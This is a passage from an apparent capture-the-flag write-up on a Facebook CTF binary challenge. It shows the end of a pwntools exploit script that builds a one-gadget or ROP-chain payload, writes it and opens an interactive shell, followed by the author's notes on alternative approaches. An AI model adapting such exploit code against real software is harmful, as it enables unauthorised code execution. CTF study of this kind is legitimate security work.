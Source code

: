 ```

'''
payload = p64(ONE_GADGET_ADDR)#[0:3] # But I only need the first three bytes
print("one gadget address = " + hex(ONE_GADGET_ADDR) + ".\n")
'''

#payload = p64(POP_RCX_ADDR)
#payload += p64(0x0)
#payload += p64(POP_RDX_ADDR)
#payload += p64(0x0)
#payload += p64(ONE_GADGET_ADDR_2)
# There's something wrong with the environment pointer...
print("payload = " + payload + ".\n")
write_payload(payload)

p.interactive()
```

### Comparison with other approaches

A friend managed to use `OneGadget` without issue, so I believe I could probably figure out how I damaged the environment pointer and get the exploit to work by writing just three bytes. That said, someone on the Facebook team mentioned to me that a number of people ran into an issue with getting `system('/bin/sh')` to work, and ended up having to use `execve` instead. Also, the two write-ups on CTFTime at the time of this posting both used fairly long ROP chains. So, I'm going to move on to other problems rather than revisit what was happening with the environment variables.
